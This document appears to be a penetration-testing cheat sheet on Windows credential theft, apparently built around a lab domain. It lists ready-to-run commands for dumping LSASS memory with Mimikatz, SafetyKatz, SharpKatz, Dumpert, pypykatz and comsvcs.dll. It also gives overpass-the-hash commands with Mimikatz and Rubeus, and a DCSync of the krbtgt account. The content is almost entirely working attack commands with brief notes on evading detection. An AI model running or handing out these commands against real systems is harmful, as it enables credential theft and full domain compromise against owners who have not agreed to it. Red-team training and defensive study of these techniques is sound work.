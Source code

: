# Dumping

## LSASS

{% hint style="warning" %}
high chances of detection
{% endhint %}

```powershell
# Dump credentials on a local machine using Mimikatz.
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 

# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
SafetyKatz.exe "sekurlsa::ekeys" 

# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa

# Using comsvcs.dll
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full 
```

## Over Pass The Hash (OPTH)

Over pass the hash is used between domain joined and not passing directly the NTLM hash to authenticate, instead asking for TGT.

<pre class="language-powershell" data-overflow="wrap" data-full-width="false"><code class="lang-powershell"><strong>Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:&#x3C;aes256key> /run:powershell.exe"'
</strong>
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:&#x3C;aes256keys>  /run:cmd.exe" "exit"

Rubeus.exe asktgt /user:administrator /rc4:&#x3C;ntlmhash> /ptt

Rubeus.exe asktgt /user:administrator /aes256:&#x3C;aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
</code></pre>

## DCSync

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"' SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```
{% endcode %}

